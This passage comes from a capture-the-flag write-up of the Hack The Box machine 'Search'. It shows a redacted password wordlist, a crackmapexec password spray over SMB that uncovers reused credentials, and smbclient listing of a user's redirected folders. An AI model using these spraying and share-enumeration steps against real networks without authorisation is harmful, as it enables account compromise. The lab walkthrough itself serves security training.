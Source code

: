 ```shell
Crystal.Greer
```

- Create `hope.sharp` and `web_svc` password wordlist:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:36:44(HKT)]
└> cat << EOF > domain_users_password.txt
then> {Redacted}
then> {Redacted}
then> EOF
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:37:11(HKT)]
└> head domain_users_password.txt 
{Redacted}
{Redacted}
```

- Password spraying via CrackMapExec (CME):

> Note: You can also do this in LDAP.

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:39:18(HKT)]
└> crackmapexec smb $RHOSTS -u domain_users.txt -p domain_users_password.txt --continue-on-success
[...]
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:{Redacted}
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Hope.Sharp:{Redacted}
[...]
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:{Redacted} 
```

**Nice! We found domain user `Edgar.Jacobs` is reusing `web_svc` password!!**

In the previous `ldapdomaindump`, we found that domain user `Edgar.Jacobs` is a member of `London-HelpDesk` group, and it doesn't have anything interesting for us.

**Then, I decided to enumerate `Edgar.Jacobs` user profile in SMB share `RedirectedFolders$`:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|16:45:57(HKT)]
└> smbclient //search.htb/RedirectedFolders$ -U "Edgar.Jacobs"
Password for [WORKGROUP\Edgar.Jacobs]:
Try "help" to get a list of possible commands.
smb: \> cd edgar.jacobs\
smb: \edgar.jacobs\> dir
  .                                  Dc        0  Fri Apr 10 04:04:11 2020
  ..                                 Dc        0  Fri Apr 10 04:04:11 2020
  Desktop                           DRc        0  Mon Aug 10 18:02:16 2020
  Documents                         DRc        0  Mon Aug 10 18:02:17 2020
  Downloads                         DRc        0  Mon Aug 10 18:02:17 2020
smb: \edgar.jacobs\> dir Desktop\
  .                                 DRc        0  Mon Aug 10 18:02:16 2020
  ..                                DRc        0  Mon Aug 10 18:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Fri Apr 10 04:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 18:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Fri Apr 10 04:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 18:35:44 2020
```
